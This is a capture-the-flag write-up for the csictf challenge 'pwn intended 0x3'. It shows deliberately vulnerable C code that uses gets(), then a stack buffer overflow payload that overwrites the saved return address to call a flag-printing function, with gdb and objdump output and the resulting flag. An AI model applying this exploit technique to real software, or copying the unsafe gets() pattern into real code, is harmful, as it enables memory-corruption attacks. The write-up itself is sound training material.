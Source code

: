 # pwn intended 0x3

Author: [roerohan](https://github.com/roerohan)

## Description

Buffer overflow to overwrite a variable in the same function.

## Requirements

- Basic Knowledge of Buffer Overflow

## Sources

- [pwn-intended-0x3](./bin/pwn-intended-0x3): Binary
- [pwn-intended-0x3.c](./bin/pwn-intended-0x3.c)

```c
#include <stdio.h>

int main() {
    char teleport[30];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to csictf! Time to teleport again.");
    gets(teleport);
}

int flag() {
    puts("Well, that was quick. Here's your flag:");
    system("cat flag.txt");
}
```

```
Teleportation is not possible, or is it?
```

## Exploit

We have to run the `flag()` function by overwriting the `saved rip` of the `main()` function.
<br />

We first find the address of the `flag` function. We can use `gdb` or `objdump` for the same.

```bash
gdb-peda$ pdisas flag
Dump of assembler code for function flag:
   0x00000000004011ce <+0>:     push   rbp
   0x00000000004011cf <+1>:     mov    rbp,rsp
   0x00000000004011d2 <+4>:     lea    rdi,[rip+0xe5f]        # 0x402038
   0x00000000004011d9 <+11>:    call   0x401030 <puts@plt>
   0x00000000004011de <+16>:    lea    rdi,[rip+0xe7b]        # 0x402060
   0x00000000004011e5 <+23>:    call   0x401050 <system@plt>
   0x00000000004011ea <+28>:    mov    edi,0x0
   0x00000000004011ef <+33>:    call   0x401070 <exit@plt>
End of assembler dump.
```

**OR**

```bash
$ objdump -d ./pwn-intended-0x3 | grep flag
00000000004011ce <flag>:
```

The address of the flag `0x00000000004011ce` function can now be written in little endian and passed into our payload, along with 32 random characters to fill the stack, and 8 more the overwrite the `saved rbp`.

```bash
$ python2 -c "print 'a'*32 + 'b'*8  + '\xce\x11\x40\x00\x00\x00\x00\x00'" | ./pwn-intended-0x3
Welcome to csictf! Time to teleport again.
Well, that was quick. Here's your flag:
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}% 
```

The flag is:

```
csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
```
